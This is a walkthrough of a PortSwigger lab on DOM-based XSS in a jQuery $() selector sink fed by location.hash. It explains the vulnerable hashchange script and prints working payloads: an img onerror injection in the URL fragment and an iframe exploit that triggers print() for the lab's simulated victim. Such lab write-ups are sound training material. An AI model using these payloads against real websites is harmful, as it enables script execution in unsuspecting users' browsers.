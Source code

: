 ```yaml
---
title: LAB 0.7
aliases:
  - LAB 0.7
tags:
  - XSS
  - Labs
  - DOM-Based
  - Apprentice
---
```

# Lab: DOM XSS in jQuery selector sink using a hashchange event
---
[LAB](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)

This lab contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property.

To solve the lab, deliver an exploit to the victim that calls the `print()` function in their browser.


# Solution
---
## Understanding the Vulnerability

Access the lab, and you'll be greeted by a simple blog page. The vulnerability lies on the homepage, but there aren’t many interactive elements visible. To investigate, inspect the page source.

![[images/Pasted image 20241230122823.png]]

### Step 1: Inspect the Page Source

Right-click anywhere on the page and select **View Page Source**. Scroll to the bottom, and you’ll find the following script:

```javascript
<script>
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
        if (post) post.get(0).scrollIntoView();
    });
</script>
```

The script uses the `location.hash` property. Let’s break it down:

1. **`$(window)`**: Selects the window object using jQuery.
2. **`.on('hashchange', function(){`**: Triggers a function when a `hashchange` event occurs (i.e., when the URL fragment changes).
3. **`var post = $('section.blog-list h2:contains(...)');`**: Searches for an `<h2>` element within a `<section>` with the class `blog-list` containing a specific string.
4. **`decodeURIComponent(window.location.hash.slice(1))`**: Extracts and decodes the string after the `#` in the URL.
5. **`if (post) post.get(0).scrollIntoView();`**: If a match is found, the matching element is scrolled into view.

This script is designed to locate and scroll to blog titles based on the URL fragment (the part after `#`).

---

### Step 2: Testing the Script’s Behavior

To see the script in action:

1. Add a hash fragment to the URL with a unique word from a blog title, e.g., `https://0af2007f035f8ff282c8e795001400be.web-security-academy.net/#Awkward%20Breakups`.
2. The page should scroll to the corresponding blog post.

![[images/Pasted image 20241230123203.png]]
You can also test this functionality in the browser console:

```javascript
$('section.blog-list h2:contains(SampleTitle)');
```

![[images/Pasted image 20241230123421.png]]
This returns a jQuery object if a matching `<h2>` element exists.

### Step 3: Identifying the Vulnerability

Now, test what happens when an invalid string is provided:

![[images/Pasted image 20241230123542.png]]

```javascript
var post = $('section.blog-list h2:contains(InvalidTitle)');
post;
```

Even though no match exists, a jQuery object is returned. This behavior exposes the vulnerability. By injecting HTML tags into the `contains()` method, we can create new DOM elements.

For example:

```javascript
var post = $('section.blog-list h2:contains(<h1>InjectedContent</h1>)');
post.get(0);
```

![[images/Pasted image 20241230123829.png]]

This creates an unauthorized `<h1>` element in the DOM.

---

### Step 4: Exploiting the Vulnerability

You can attach this injected element to a visible parent element using `appendChild()`. Here’s how:

![[images/Pasted image 20241230124406.png]]
```javascript
post = post.get(0);
var parent = document.getElementById('academyLabHeader');
parent.appendChild(post);
```

This attaches the injected `<h1>` element to the specified parent, making it visible.
![[images/Pasted image 20241230124529.png]]
Next, inject an image tag with an `onerror` event to trigger JavaScript:

1. Modify the URL to include the payload:

	```
	http://0af2007f035f8ff282c8e795001400be.web-security-academy.net/#<img src="x" onerror="alert()">
	```

2. This triggers an alert pop-up in the browser.
	![[images/Pasted image 20241230124653.png]]
---
## Crafting the Exploit

1. Open the **Exploit Server** tab.
2. Replace the default payload ("Hello, world!") with the following:

```html
<iframe src="https://0af2007f035f8ff282c8e795001400be.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

3. Click **View Exploit** to execute the payload.

![[images/Pasted image 20241230125008.png]]
### Explanation:

- The `iframe` loads the vulnerable page.
- The `onload` attribute appends a malicious hash fragment containing an `<img>` tag with an `onerror` event.
- The `onerror` event triggers the `print()` function, as required by the lab.

---

## Delivering the Exploit

1. After confirming the exploit works, click **Deliver Exploit to Victim**.
2. Wait for confirmation that the victim’s browser executed the payload.

![[images/Pasted image 20241230125102.png]]
---

### Congratulations!

You’ve successfully exploited the vulnerability and solved the lab! 